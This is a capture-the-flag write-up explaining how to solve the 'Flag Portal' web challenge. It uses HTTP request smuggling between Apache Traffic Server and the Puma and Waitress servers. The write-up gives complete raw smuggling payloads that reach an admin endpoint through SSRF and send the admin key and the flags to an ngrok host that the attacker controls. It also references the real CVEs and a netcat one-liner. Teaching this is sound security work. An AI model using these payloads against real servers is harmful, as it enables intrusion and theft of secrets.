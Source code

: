 # Flag Portal - Solution

**Author**: zeyu2001

**Category**: Web

## Unintended Solution

While `/api/flag-plz` is mapped to `/forbidden`, the `/api` prefix is still mapped to `/`.

```
map /api/flag-plz   http://backend/forbidden
map /api            http://backend/
map /admin          http://flagportal/forbidden
map /               http://flagportal/
```

This means that `http://flagportal.chall.seetf.sg:10001/api//flag-plz` will be mapped to `http://backend//flag-plz`, which is normalized to `http://backend/flag-plz`.

## Intended Solution

2 HTTP request smuggling vulns.

### 1) Between ATS and Puma

Conditions that make this possible:

- ATS interprets `"chunked"` as `chunked`
- Puma ignores invalid / unsupported TE values

First, we need to smuggle a request to `/admin` in `flagportal` to perform an SSRF.

```http
GET / HTTP/1.1
Host: example.com
Transfer-Encoding: "chunked"

DELETE /admin?backend=http://f754-42-60-216-15.ngrok.io HTTP/1.1
Host: example.com
Padding: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0: x

```

Here's how this works.

For ATS:

- ATS interprets `"chunked"` as `chunked`.
- It sees the first two characters of `DELETE`, and interprets `0xDE` as the chunk size.
- Using the padding header, we add enough bytes so that we have `0xDE` bytes when we reach `0: x`.
- The `0: x` line is parsed as the chunk terminator.
- ATS only sees one request, `GET /`.

For Puma:

- Puma ignores the invalid `"chunked"` transfer encoding.
- The content length of the first request is then 0.
- Puma sees two requests, `GET /` and `DELETE /admin`.

By hosting our own server, we can catch the request, including the `Admin-Key`.

```http
POST / HTTP/1.1
Host: f754-42-60-216-15.ngrok.io
User-Agent: Ruby
Content-Length: 37
Accept: */*
Accept-Encoding: gzip;q=1.0,deflate;q=0.6,identity;q=0.3
Admin-Key: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
First-Flag: SEE{n0w_g0_s0lv3_th3_n3xt_p4rt_bf38678e8a1749802b381aa0d36889e8}
X-Forwarded-For: 42.60.216.15
X-Forwarded-Proto: http

target=https%3A%2F%2Fbit.ly%2F3jzERNa
```

This gives us the first flag, `SEE{n0w_g0_s0lv3_th3_n3xt_p4rt_bf38678e8a1749802b381aa0d36889e8}`.

Note that with the above request smuggling method, we won't be able to get the second response from Puma, which is why there are two parts to this challenge. ATS will only show the first response even if we add more requests after the `DELETE` request above.

### 2) Between ATS and Waitress

Conditions that make this possible:

- ATS processes LF as line endings (instead of CRLF)
- Waitress allows LF in chunked extensions

```http
GET /api HTTP/1.1
Host: backend
Transfer-Encoding: chunked

2;[\n]xx
d9
0

POST /flag-plz HTTP/1.1
Host: backend
ADMIN-KEY: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

target=http://f754-42-60-216-15.ngrok.io

0

```

Notice a `\n` is added to the chunk extension. Since ATS processes the LF as the end-of-line, it sees the following:

```http
GET /api HTTP/1.1
Host: backend
Transfer-Encoding: chunked

2
xx
d9
0

POST /flag-plz HTTP/1.1
Host: backend
ADMIN-KEY: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

target=http://f754-42-60-216-15.ngrok.io

0

```

The second request is encapsulated in the chunked content of the first request.

Waitress, on the other hand, would see both requests:

```http
GET /api HTTP/1.1
Host: backend
Transfer-Encoding: chunked

2
d9
0

POST /flag-plz HTTP/1.1
Host: backend
ADMIN-KEY: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

target=http://f754-42-60-216-15.ngrok.io

0

```

`python3 payload.py | nc localhost 8000`

From our receiving server, we can see the flag: `SEE{y4y_r3qu3st_smuggl1ng_1s_fun_e28557a604fb011a89546a7fdb743fe9}`

```http
POST / HTTP/1.1
Host: f754-42-60-216-15.ngrok.io
User-Agent: python-requests/2.27.1
Content-Length: 106
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 42.60.216.15
X-Forwarded-Proto: http

flag=SEE%7By4y_r3qu3st_smuggl1ng_1s_fun_e28557a604fb011a89546a7fdb743fe9%7D&congrats=Thanks+for+playing%21
```

### Credits

- Thesis by Matthias Grenfeldt and Asta Olofsson where they investigated ATS in-depth. The vulnerabilities on the ATS-side of things in this challenge were discovered by them and detailed in this thesis.

<http://kth.diva-portal.org/smash/get/diva2:1596031/FULLTEXT01.pdf>

- For Puma and Waitress, these were vulnerabilities I found when researching on web servers and request smuggling.
  - CVE-2022-24790: <https://github.com/puma/puma/security/advisories/GHSA-h99w-9q5r-gjq9>
  - CVE-2022-24761: <https://github.com/Pylons/waitress/security/advisories/GHSA-4f7p-27jc-3c36>
